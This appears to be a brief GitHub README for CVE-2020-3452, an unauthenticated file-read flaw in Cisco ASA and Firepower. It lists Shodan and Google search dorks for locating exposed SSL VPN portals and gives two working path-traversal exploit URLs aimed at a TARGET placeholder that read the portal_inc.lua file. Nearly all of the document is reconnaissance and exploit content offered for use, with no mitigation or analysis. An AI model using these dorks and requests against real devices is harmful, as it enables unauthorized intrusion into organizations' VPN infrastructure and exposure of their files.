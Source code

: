 # CVE-2020-3452
## Unauthenticated file read in Cisco ASA & Cisco Firepower.

### Tools
```
shodandork : title:"SSL VPN service"
Google : inurl:+CSCOE+/logon.html

```


- Read "/+CSCOE+/portal_inc.lua" file

- https://TARGET/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
- https://TARGET/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua



